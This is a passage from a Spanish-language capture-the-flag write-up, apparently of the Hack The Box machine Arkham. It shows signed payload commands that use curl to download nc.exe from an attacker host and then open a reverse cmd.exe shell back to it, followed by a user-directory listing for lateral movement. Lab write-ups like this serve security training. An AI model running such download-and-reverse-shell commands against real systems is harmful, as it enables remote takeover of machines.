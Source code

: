 Siguiendo la guía citada, vemos que la ruta anterior también puede encontrarse como `TEMP/`, así que probemos:

```py
...
sign_payload("curl http://10.10.14.14:8000/nc.exe -o C:\\Windows\\TEMP\\nc.exe'")
sign_payload("C:\\Windows\\TEMP\\nc.exe 10.10.14.14 4433 -e cmd.exe")
```

Recibimos petición y en nuestro listeneeeeeer:

![179bash_alfred_revSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/arkham/179bash_alfred_revSH.png)

Listooooones, a darleeeeeeeeeeeeeeeeee!!

...

## Movimiento lateral : Alfred -> Batman [#](#movimiento-lateral-alfred-batman) {#movimiento-lateral-alfred-batman}

Enumerando un poco sobre el directorio `C:\Users` vemos:

```powershell
c:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is FA90-3873

 Directory of c:\Users

02/03/2019  06:54 PM    <DIR>          .
02/03/2019  06:54 PM    <DIR>          ..
02/03/2019  09:26 AM    <DIR>          Administrator
02/03/2019  06:31 PM    <DIR>          Alfred
02/02/2019  10:48 AM    <DIR>          Batman
02/03/2019  06:54 PM    <DIR>          Guest
02/01/2019  08:19 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)   8,718,667,776 bytes free

c:\Users>
```
